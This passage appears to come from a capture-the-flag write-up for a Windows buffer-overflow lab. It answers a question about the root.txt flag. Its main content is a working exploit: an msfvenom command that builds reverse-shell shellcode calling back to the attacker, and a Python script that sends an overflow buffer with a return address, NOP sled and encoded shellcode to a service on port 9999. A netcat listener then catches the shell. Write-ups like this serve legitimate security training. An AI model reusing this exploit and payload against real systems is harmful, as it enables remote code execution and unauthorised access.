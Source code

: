 This gives us shell now we can change these to work on the target.

**After gaining access, what is the content of the root.txt file?**

- ``msfvenom -p windows/shell_reverse_tcp LHOST=10.x.x.x LPORT=7777 -b "\x00" -f c``

- adjust our payload to suit

```python
import socket
import sys

username = b"oskar"
message = b"A" * 2012 + b"\xdf\x14\x50\x62" + b"\x90" * 32
payload = (b"\xdd\xc4\xd9\x74\x24\xf4\x5e\xba\x5a\x94\x76\xdd\x2b\xc9\xb1"
b"\x52\x31\x56\x17\x83\xee\xfc\x03\x0c\x87\x94\x28\x4c\x4f\xda"
b"\xd3\xac\x90\xbb\x5a\x49\xa1\xfb\x39\x1a\x92\xcb\x4a\x4e\x1f"
b"\xa7\x1f\x7a\x94\xc5\xb7\x8d\x1d\x63\xee\xa0\x9e\xd8\xd2\xa3"
b"\x1c\x23\x07\x03\x1c\xec\x5a\x42\x59\x11\x96\x16\x32\x5d\x05"
b"\x86\x37\x2b\x96\x2d\x0b\xbd\x9e\xd2\xdc\xbc\x8f\x45\x56\xe7"
b"\x0f\x64\xbb\x93\x19\x7e\xd8\x9e\xd0\xf5\x2a\x54\xe3\xdf\x62"
b"\x95\x48\x1e\x4b\x64\x90\x67\x6c\x97\xe7\x91\x8e\x2a\xf0\x66"
b"\xec\xf0\x75\x7c\x56\x72\x2d\x58\x66\x57\xa8\x2b\x64\x1c\xbe"
b"\x73\x69\xa3\x13\x08\x95\x28\x92\xde\x1f\x6a\xb1\xfa\x44\x28"
b"\xd8\x5b\x21\x9f\xe5\xbb\x8a\x40\x40\xb0\x27\x94\xf9\x9b\x2f"
b"\x59\x30\x23\xb0\xf5\x43\x50\x82\x5a\xf8\xfe\xae\x13\x26\xf9"
b"\xd1\x09\x9e\x95\x2f\xb2\xdf\xbc\xeb\xe6\x8f\xd6\xda\x86\x5b"
b"\x26\xe2\x52\xcb\x76\x4c\x0d\xac\x26\x2c\xfd\x44\x2c\xa3\x22"
b"\x74\x4f\x69\x4b\x1f\xaa\xfa\x7e\xe2\xcb\x1b\x16\xe0\x33\xc2"
b"\x86\x6d\xd5\x90\x58\x38\x4e\x0d\xc0\x61\x04\xac\x0d\xbc\x61"
b"\xee\x86\x33\x96\xa1\x6e\x39\x84\x56\x9f\x74\xf6\xf1\xa0\xa2"
b"\x9e\x9e\x33\x29\x5e\xe8\x2f\xe6\x09\xbd\x9e\xff\xdf\x53\xb8"
b"\xa9\xfd\xa9\x5c\x91\x45\x76\x9d\x1c\x44\xfb\x99\x3a\x56\xc5"
b"\x22\x07\x02\x99\x74\xd1\xfc\x5f\x2f\x93\x56\x36\x9c\x7d\x3e"
b"\xcf\xee\xbd\x38\xd0\x3a\x48\xa4\x61\x93\x0d\xdb\x4e\x73\x9a"
b"\xa4\xb2\xe3\x65\x7f\x77\x13\x2c\xdd\xde\xbc\xe9\xb4\x62\xa1"
b"\x09\x63\xa0\xdc\x89\x81\x59\x1b\x91\xe0\x5c\x67\x15\x19\x2d"
b"\xf8\xf0\x1d\x82\xf9\xd0")

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('10.10.203.108',9999))
      s.recv(1024)
      s.recv(1024)
      s.send(username + b'\r\n')
      s.recv(1024)
      s.send(message + payload + b'\r\n')
      s.recv(1024)
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

- send through payload with netcat listener setup to gain shell

- our root.txt is on desktop of drake

* * * 
